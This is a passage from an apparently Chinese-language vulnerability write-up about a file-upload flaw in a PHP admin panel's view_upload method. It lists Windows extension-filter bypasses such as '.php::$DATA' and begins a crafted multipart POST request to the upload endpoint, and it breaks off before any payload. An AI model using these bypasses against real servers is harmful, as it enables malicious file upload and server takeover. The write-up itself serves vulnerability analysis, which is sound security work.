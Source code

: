 这个方法中，  
```
type
```

 为3的时候是上传文件的，然后传入  
```
Upload::file
```

 方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57giamOreCedpdSTQUzID5iaDZu29d5ZmQXuB4MCGCsicdsuSGR8ROImBicrtECATQjp5gG5yDGbUmyWQ/640?wx_fmt=png "")  
  
虽然
```
view_upload
```

方法中对上传文件的后缀名进行了限制，禁止上传
```
.php
```

文件，但在Windows系统中，攻击者可以通过一些技巧绕过这种简单的过滤措施。攻击者可能会利用双后缀名、空格或其他字符来绕过过滤器，或者通过修改文件内容绕过文件类型检测，从而上传恶意文件。因此，即使有后缀名的限制，仍然存在上传恶意文件的风险。  

```
.php.  
.php(空格)  
.php:1.jpg  
.php::$DATA  
.php::$DATA…….  
。。。。。。


```

  
经过尝试，发现使用
```
1.php::$DATA
```

这样的方式可以绕过后缀名检测。 构造的post数据包为：  

```
POST /index.php/admin/setting.system_config/view_upload.html HTTP/1.1  
Host: xxx.com  
Content-Length: 403  
Cache-Control: max-age=0  
Origin: http://xxx.com  
Upgrade-Insecure-Requests: 1  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryP7jKNcoemK2sybZb  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3  
Referer: http://xxx.com/index.php/admin/setting.system_config/index_alone?tab_id=1  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=es9ef1h1c9i0t21brcrlqigfmt  
Connection: close  
  
------WebKitFormBoundaryP7jKNcoemK2sybZb  
Content-Disposition: form-data; name=&#34;file&#34;  
  
site_logo  
------WebKitFormBoundaryP7jKNcoemK2sybZb  
Content-Disposition: form-data; name=&#34;type&#34;  
```